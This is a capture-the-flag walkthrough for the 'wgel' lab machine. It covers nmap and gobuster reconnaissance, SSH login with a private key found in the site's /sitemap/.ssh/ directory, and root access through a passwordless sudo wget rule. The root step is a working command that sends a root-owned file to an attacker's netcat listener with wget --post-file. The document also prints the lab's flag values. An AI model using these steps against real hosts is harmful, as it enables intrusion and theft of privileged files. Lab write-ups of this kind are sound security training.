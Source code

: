 
# 🛡️ CTF/Pentest Walkthrough: Exploiting wgel ctf(10.10.131.241)

## 🛰️ Target IP
`10.10.131.241`

---

## 🧭 Reconnaissance

### 🔍 Nmap Scan

```bash
nmap -A -sS -p- 10.10.131.241
```

**Open Ports:**
- `22/tcp` → OpenSSH 7.2p2 (Ubuntu)
- `80/tcp` → Apache/2.4.18

---

## 🌐 Web Enumeration

### 📂 Gobuster on `/`

```bash
gobuster dir -u http://10.10.131.241 -w /usr/share/wordlists/dirb/common.txt
```

**Interesting Results:**
- `/index.html` (Apache default page)
- `/sitemap/` (redirect)
- `/server-status` (403)

### 🔍 Gobuster on `/sitemap`

```bash
gobuster dir -u http://10.10.131.241/sitemap -w /usr/share/wordlists/dirb/common.txt
```

**Found:**
- `/sitemap/.ssh/` → likely SSH keys

---

## 🔑 SSH Access

### 🔐 Discovered Private Key (id_rsa)

1. Created and saved key as `id_rsa`
2. Set proper permissions:

```bash
chmod 600 id_rsa
```

3. Connected via SSH:

```bash
ssh -i id_rsa jessie@10.10.131.241
```

---

## 🏴 User Flag

```bash
cd Documents/
cat user_flag.txt
```

📄 **Flag:** `057c67131c3d5e42dd5cd3075b198ff6`

---

## 🔐 Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

**Allowed:**  
`(root) NOPASSWD: /usr/bin/wget`

---

## 🚀 Exploit with `wget --post-file`

### 🧪 Transfer root flag to attacker via HTTP POST

**Attacker (Kali):**

```bash
nc -lvnp 80
```

**Victim (CorpOne):**

```bash
sudo wget --post-file=/root/root_flag.txt http://10.17.7.111
```

### ✅ Result (Captured on Attacker Netcat):

```
POST / HTTP/1.1
...
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```

📄 **Root Flag:** `b1b968b37519ad1daa6408188649263d`

---

## ✅ Summary

| Stage        | Result                            |
|--------------|-----------------------------------|
| User flag    | ✅ `057c67131c3d5e42dd5cd3075b198ff6` |
| Root flag    | ✅ `b1b968b37519ad1daa6408188649263d` |
| Exploit Used | `wget --post-file` with `sudo`    |
| Privilege Escalation | Via allowed `wget` binary  |

---

📝 **Tips for Next Time**
- Always test `wget`-based `sudo` exploits with netcat and valid HTTP response.
- Use Python HTTP server to cleanly receive and store file data if needed.
